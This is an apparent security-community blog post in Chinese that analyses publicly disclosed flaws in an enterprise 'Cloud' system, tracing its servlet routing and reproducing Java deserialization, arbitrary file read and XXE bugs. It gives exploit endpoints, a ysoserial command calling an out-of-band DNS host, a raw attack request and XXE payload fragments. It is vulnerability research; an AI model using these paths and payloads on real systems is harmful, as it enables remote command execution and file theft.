# 奇安信攻防社区-某Cloud系统漏洞分析

### 某Cloud系统漏洞分析

最近学习反序列漏洞时，恰好看到某系统官方在安全公告中通告了较多的反序列化漏洞。出于兴趣，尝试对该系统的公开漏洞进行一次个人的浅浅分析。如有不对之处，请各位师傅指正并包涵。

最近学习反序列漏洞时，恰好看到某系统官方在安全公告中通告了较多的反序列化漏洞。出于兴趣，尝试对该系统的公开漏洞进行一次个人的浅浅分析。如有不对之处，请各位师傅指正并包涵。

## 路由分析

使用安装包安装完成站点，将服务端的代码打包使用idea打开。  
先打开web.xml看一下路由信息。这里可以看到在路径中访问/service/\*或/servlet/\*实际上都是同一个应用服务处理的。  
  
调用服务的类完整路径如下所示：  
  
使用`nc.bs.framework.server`路径名作为关键字，对全局进行搜索。在bin/versionback/目录下的digest.cache中找到jar包与类的映射缓存信息，发现相关类在**fw.jar**包中。  
  
在idea中通过添加library的方式对**fw.jar**进行反编译，找到InvokerServlet类源码。  
该类中所有的get和post操作都被doAction函数处理。  
  
通过配置远程调试进行分析，发现pathInfo获得的是/service/\*或/servlet/\*后的路径，例如请求/service/test666就会出现如下情况。  
  
继续跟进doAction函数，发现该类的主要用作是获取modulName和serviceName并调用对应服务，而doActuin方法获取这两个参数有两种方式：  
1、判断传入的uri中是否以～开头，当以~开头，进入到该分支进行处理，并根据~后的内容给moduleName赋值。  
  
2、判断传入的uri中是否以～开头，当不是~开头，将传入的uri作为serviceName  
  
经过上面的流程处理后，此时moduleName为空，serviceName为uri中service或servlet后的内容。  
完成上述分支后，就会调用`getServiceObject`方法实例化对应服务类。  
  
跟进`getServiceObject`方法，发现会根据moduleName是否为空存在两个分支：  
1、当moduleName不为空时，会进入else分支，使用serviceObjMap进行处理并用`:`拼接moduleName和serviceName。因为暂不涉及传入moduleName的情况，就先不深入跟，将注意力放在第二分支上。  
2、当moduleName为空时，直接使用使用NCLocator实例化调用ServerNCLocator的lookup方法。  
  
  
从lookup方法进入findComponent方法根据组件名查询服务类对象。  
  
成功获得实例obj对象后，会通过反射调用的方式，调用doAction方法。因此后面找到调用的服务类，会从doAction作为入口。  


## 寻找反序列化点

用工具对**fw.jar**反编译出java，方便后在idea中按照文件全局搜索关键字（class文件无法直接在idea中按文件进行全局搜索）。使用`readObject`、`ois.readObject`等关键搜索。找到MxServlet.java和MonitorServlet.java等存在疑似注入点。  
  
  
进一步阅读MxServlet.java反编译的源码，看到在doAction方法下，存在对request请求的数据直接使用对象输入流的readObject方法进行反序列化。因为通过ois传入的序列化对象可控，因此在后续自动调用该对象的readObject方法时，就会可能存在一系列的套娃调用的问题。  
  
查看MonitorServlet.java源码信息，发现也存在同样的反序列化的问题。序列化的对象数据也是直接从request的请求中获得的。  
  
搜索文件关键字，在modules/uap/META-INF/M\_monitortool50.upm中找到该服务类的组件名称。

```php
<?xml version='1.0' encoding='utf-8'?>
<module>
    <public>
        <component name="mxservlet">
            <implementation>nc.bs.framework.mx.MxServlet</implementation>
        </component> 
        <component name="monitorservlet">
            <implementation>nc.bs.framework.mx.monitor.MonitorServlet</implementation>
        </component> 
    </public>
</module>
```

根据之前的路由规则以及实例化服务类的方式，用组件名称就能构造出可以触发漏洞路径`/service/mxservlet`和`/service/monitorservlet`  
在寻找其他反序列化漏洞时，正好发现一个通告，对通告中的服务类进行查找，尝试复现该漏洞。  
  
在uapsystemframework.jar源码中发现FileManageServlet类的doAction方法存在与之前类似的反序列化的问题。  
  
参照前文可构造漏洞路径`/service/FileManageServlet`，后面需要对以上的触发路径进行验证。

## 反序列化漏洞验证

在利用cc链进行命令执行前，可以使用URLDNS对之前的阅读源码的理解进行验证。

> java -jar ysoserial-all.jar URLDNS "[http://mxtest.97886226fd.ipv6.1433.eu.org."](https://97886226fd.ipv6.1433.eu.org./) >mxtest.bin

之后，构造请求数据包，请求的路径为之前构造出来的路径，以`/service/mxservlet`为例  
将生成的序列化数据直接从文件中粘贴。

```php
POST /service/mxservlet HTTP/1.1
Host: 192.168.126.131:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/data
Cookie: JSESSIONID=AE08AAAA9C9FC99389408FE028A93302.server
Connection: close
```

  
在dnslog中获得请求，证明该路径下确实存在对请求数据包中的对象直接反序列化的问题。  
  
为了对反序列化利用链进行探测，向大家推荐一下Yakit的Fuzztag功能。通过dnslog对可用的利用链进行初步判断。  
  
domain填写个dnslog的域名即可。  
  
发送数据包后，在dnslog中收到如下信息：  
  
从获得的信息可知，当前服务器为windows。其中cc31or321、cc41和cb17、cb18是指探测到的cc、cb依赖版本。对比版本号可以很方便的看出，可以使用影响commons-collections3版本的CC1/3/5/6/7链，也可以使用CB183链。  
但是需要注意探测出来的利用链并非均可利用，因为还会受到jdk版本影响。比如，CC1/3链因为在jdk 8u71版本中进行了修复，因此在之后的版中jdk版中无法利用，而CC6链则不受jdk版本影响。  
检查一下该系统中依赖，发现正好有用到commons-collections 3.2.1；commons-beanutils 1.8.0



  
查找学习资料了解，3.2.2版本后，增加了一个方法FunctorUtils#checkUnsafeSerialization，检查常⻅的危险Transformer类。而4.4.1版本后，则是常用的几个危险Transformer类不再实现Serializable接口。都无法利用它们进行命令执行。  
由于本次环境使用的jdk大于8u71版本，因此先用不受影响的CC6链进行测试。  
使用Yakit生成CC6链的十六进制字节码：  
  
使用Yakit的Fuzztag十六进制解码功能，对字节码进行处理：  
  
成功执行命令：  
  
对其他利用利用链进行测试：  
  
使用Yakit的Fuzztag对tomcat body回显链进行遍历测试：  
  
更多Fuzztag使用技巧可参考官方手册：[Fuzz Tag Playbook](https://www.yaklang.com/docs/newforyak/fuzztag/)

## 文件读取

在漏洞通告中，除了以上反序列化漏洞，还注意到一个任意文件读取漏洞  
  
对modules\\hrpub\\lib\\目录下的pubhrpubtools.jar进行反编译，找到FileServlet类文件，查看源码。先看doAction方法：  
  
跟进performTask方法，发现存在对request请求中的path参数值进行base64解码，并将path带入getFileContent方法中。期间虽然又对文件后缀进行判断，但是仅作为返回包中Content-Type取值依据，并未作限制或者拦截。  
  
跟进getFileContent方法，发现是非常标准的读文件并返回内容的代码。  


  
找到漏洞位置，接着寻找如何触发。搜索发现，FileServlet类的组件名称就是它的完整路径。

  
尝试构造数据包，漏洞路径还是依据前文中的路由规则构造，service或servlet+组件名称，就可以实列化该服务。  
  
使用get或post发送数据都可成功触发。

## XXE注入

XXE即XML外部实体注入，由上面可知，外部实体指的就是DTD外部实体，而造成XXE的原因是在解析XML的时候，对恶意的外部实体进行解析导致可加载恶意外部文件，造成严重危害。  
查找资料时，发现有师傅公开的该系统登录位置存在的xxe漏洞。  
在登录位置抓包：  
·  
  
使用常见的外部实体xxe注入代码测试，发现果然可以执行但是无回显信息。

```php
]><foo>%26test;</foo>
```

  
推测可能是xml代码因为缺少部分标签，导致无法回显；尝试对原本登录包中xml代码进行格式化，仿照原本的格式修改xxe注入代码。  
  
删除多余无用的代码后，就可以得到一个简洁的可回显payload

```php
]> <rpc transaction="10" method="checkPwd"> <vps> <p>%26test;</p> </vps> </rpc>
```

